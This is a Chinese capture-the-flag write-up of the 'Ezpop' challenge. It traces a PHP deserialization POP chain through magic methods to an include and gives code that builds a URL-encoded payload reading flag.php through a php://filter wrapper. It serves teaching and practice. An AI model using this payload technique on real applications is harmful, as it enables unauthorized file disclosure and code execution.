




# [MRCTF2020] Ezpop





## 先审计代码

发现是 PHP 序列化串（先附上相关知识点）：



## 从终点往回找

先找可以执行的地方。

在 `Modifier` 类的 `append` 下有 `include` 可以利用，而调用 `include` 需要先有 `__invoke` 的调用。

触发 `__invoke` 的方式是**有对象被当成函数来调用**，所以去找哪里是可以把对象当成函数来调用的 —— 观察到在 `Test` 类的 `__get()` 里会调用 `$function()`，也就达成了 `__invoke` 的触发要求。

再看 `__get` 的触发条件：**当访问不存在的属性时会被调用**。也就是说，访问 `Test` 类中不存在的属性时会被调用。

所以这里再去看最后一个类，发现 `__toString` 中会去访问 `$this->str->source` —— 这里我们只要让 `str` 为 `Test` 类，那它去访问 `str->source` 时就会触发 `__get`。

接着要考虑 `__toString` 的触发条件：**当把一个对象当成字符串来执行时会触发**。

那很明显就是 `preg_match`：

```php
preg_match('/正则表达式/', $字符串, $匹配结果数组);
```

这里他把 `$this->source` 放进了 `preg_match` 的第二个参数，所以我们只要让他作为一个类 —— 又因为要同时包含 `str`，所以只能是 `Show` 类。

最后是如何触发 `__wakeup`：它的触发条件是**当使用 `unserialize` 时触发**，那么就完成了闭环。

### 逆推方向（找链的顺序）

```text
include ← __invoke ← __get ← __toString ← __wakeup ← unserialize($_GET['pop'])
```

**这是从终点往入口找的顺序。**

### 正向执行顺序（实际跑起来的样子）

```text
unserialize($_GET['pop'])
    → Show::__wakeup()          preg_match(..., $this->source) 把对象当字符串
    → Show::__toString()        $this->str->source 读不存在的属性
    → Test::__get('source')     $function = $this->p; $function()
    → Modifier::__invoke()      $this->append($this->var)
    → Modifier::append()        include($value)
```

**这条 POP 链就走完了。**

## 构造序列化



```php
class Modifier {
    protected $var = "php://filter/convert.base64-encode/resource=flag.php";
}
class Test { public $p; }
class Show { public $source; public $str; }

$pop = new Show;
$pop->source = new Show;        // 外层 source → 内层 Show（触发 __toString）
$pop->source->str = new Test;   // 内层的 str → Test（触发 __get）
$pop->source->str->p = new Modifier;   // Test 的 p → Modifier（触发 __invoke）
echo serialize($pop);
echo ("<br>");
echo urlencode(serialize($pop));
```

**四层的分工：**

| 层 | 属性 | 给谁用 |
|---|---|---|
| 外层 `Show` | `source` | `__wakeup` 的 `preg_match` |
| 内层 `Show` | `str` | `__toString` 的 `$this->str` |
| `Test` | `p` | `__get` 的 `$function` |
| `Modifier` | `var` | `append` 的 `include` |

## 为什么要用伪协议

**这里因为直接 include 会把 PHP 代码执行掉（而 `flag.php` 里没有 echo，执行完什么都不输出），
所以我们利用伪协议先把它编码成 base64 —— 编码后的文本不含 `<?php`，`include` 就会**原样输出**而不是执行。**

```text
php://filter/convert.base64-encode/resource=flag.php
```

## `\0` 的坑

**注意：因为 `var` 的属性是 `protected`，序列化时会生成 `\0*\0var`（长度 6，两个空字节也算）。**

**但是如果你直接把它复制到 URL 上，这两个空字节会被吞掉，`s:6:"*var"` 长度就对不上了。**

**所以生成时最好就直接 `urlencode()`，避免出错：**

```php
echo urlencode(serialize($pop));
```

**编码后这一小段是 `s:6:%22%00*%00var%22`。**

## 拿 flag

**最后得到 base64 编码的 flag，解码就好了。**

```text
?pop=<urlencode 后的整条串>
→ 页面吐出 base64
→ 解码 → flag.php 源码 → flag
```

## 这题的收获

**第一次做 POP 链，最有用的一条是：**

> **不能从头读代码，要从**能干活的那个函数**（sink）往回找。**

```text
① 找 sink      include / eval / system / call_user_func
② 谁能碰到它    哪个魔术方法里调用了它
③ 那个魔术方法怎么触发   对象当字符串？当函数？读不存在的属性？
④ 一路往回，直到 unserialize
```

**中间那条 `__get` 最容易绕晕：它不是"属性值为空"，而是"这个类里根本没有这个属性"。**
**`Test` 只有 `$p`，所以读 `->source` 必然触发 —— 你什么都不用设。**
